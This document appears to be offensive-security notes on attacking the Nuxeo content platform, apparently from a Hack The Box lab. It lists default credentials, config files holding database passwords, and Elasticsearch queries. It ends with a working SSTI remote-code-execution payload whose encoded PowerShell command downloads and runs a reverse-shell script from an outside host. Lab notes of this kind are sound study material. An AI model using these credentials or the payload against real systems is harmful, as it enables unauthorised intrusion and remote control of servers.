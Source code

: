 ```yaml
---
layout: post
title: Nuxeo
description: Nuxeo
summary: Nuxeo
tags: [rce,cms,enum,java,ssti,web]
minute: 1
---
```

## Oveview
![](/spindel/assets/Nuxeo/CAP-dashboard.png)

* Collaboration system
* Tech stack
	* Tomcat
	* Elasticsearch
	* DB (PostgreSQL, Mysql)

## Version Detection
* You can see copyright as well as version infromation at the bottom of login page

```bash
# Version is 10.2
Copyright © 2001-2022 Nuxeo and respective authors. Nuxeo Platform FT 10.2
```

## Credentials
```bash
# Default
Administrator:Administrator

# Some DB Users to try
nuxeo
```

## Interesting Files and Directories
```bash
# Nuxeo config. You can see DB passwords here.
C:\programdata\nuxeo\conf\nuxeo.conf

# Some tomcat config
conf/

# User settings?
~/.nxshell
C:\users\svc_account\.nxshell\history
C:\users\svc_account\.nxshell\shell.properties
```

## Interesting URL paths
```bash
/nuxeo
/nuxeo/login.jsp
/nxserver
/nxstartup.faces
```

## Interesting Database Tables
```bash
users
digestauth
content
groups
userinfo
note
```

## Interesting Elasticearch Data
```bash
curl 'http://localhost:9200/nuxeo-audit/_search?pretty=true'
curl 'http://localhost:9200/nuxeo/_search?pretty=true'
```

## Vulnerabilities, Attacks and Exploits
* [Orange: How I Chained 4 Bugs(Features?) into RCE on Amazon Collaboration System](https://blog.orange.tw/2018/08/how-i-chained-4-bugs-features-into-rce-on-amazon.html)
* [Nuxeo 10 Authentication Bypass and RCE using SSTI](https://github.com/mpgn/CVE-2018-16341)

```bash
# HTB Hancliffe payload. Take note there is a URI parsing
# vulnerability that's why there is a `/maintenance/..;/`
http://hancliffe/maintenance/..;/login.jsp/pwn$%7B7+7%7D.xhtml

# Another payload but with powershell encoded command
http://hancliffe/maintenance/..;/login.jsp/pwn$%7B%22%22.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22powershell%20-encodedcommand%20SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADMANAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACcAKQA=%22,null).waitFor()%7D.xhtml
```

## References
* [Wikipedia](https://en.wikipedia.org/wiki/Nuxeo)
* [GitHub - nuxeo/nuxeo: Content management platform to build modern business applications](https://github.com/nuxeo/nuxeo)